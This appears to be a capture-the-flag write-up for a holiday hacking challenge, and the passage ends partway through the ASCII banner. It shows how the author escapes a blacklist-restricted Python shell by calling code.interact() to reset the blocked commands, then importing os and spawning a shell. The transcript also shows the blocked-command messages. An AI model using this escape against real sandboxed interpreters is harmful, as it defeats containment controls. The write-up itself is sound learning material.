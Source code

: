 ## Objective 8

> Santa has introduced a [web-based packet capture and analysis tool](https://packalyzer.kringlecastle.com/) to support the elves and their information security work. Using the system, access and decrypt HTTP/2 network activity. What is the name of the song described in the document sent from Holly Evergreen to Alabaster Snowball? 
> For hints on achieving this objective, please visit SugarPlum Mary and help her with the Python Escape from LA Cranberry Pi terminal challenge.

### Challenge


> I'm another elf in trouble,
> Caught within this Python bubble.

> To complete this challenge, escape Python
> and run ./i_escaped

For this challenge you will need:

- Escaping Python Shell: https://www.youtube.com/watch?v=ZVx2Sxl3B9c
- Mark Baggett Gist: https://gist.github.com/MarkBaggett/dd440362f8a443d644b913acadff9499


```
>>> os.system('ls')
Use of the command os.system is prohibited for this question.

>>> import importlib
Use of the command import is prohibited for this question.

>>> exec ('something')
Use of the command exec is prohibited for this question.
```

It's probably "secured" with the blacklist method mentioned in the talk, let's try to reset the blacklist:
```
>>> code.interact()
Python 3.5.2 (default, Nov 12 2018, 13:43:14) 
[GCC 5.4.0 20160609] on linux
Type "help", "copyright", "credits" or "license" for more information.
(InteractiveConsole)
>>> os.system("ls")
NameError: name 'os' is not defined
>>> import os
>>> os.system("ls")
i_escaped
0
```

It worked! So let's break out of the jail:

```
>>> os.system("sh")
$ ls
i_escaped
$ ./i_escaped
Loading, please wait......


 
  ____        _   _                      
 |  _ \ _   _| |_| |__   ___  _ __       
 | |_) | | | | __| '_ \ / _ \| '_ \      
 |  __/| |_| | |_| | | | (_) | | | |     
 |_|___ \__, |\__|_| |_|\___/|_| |_| _ _ 
 | ____||___/___ __ _ _ __   ___  __| | |
```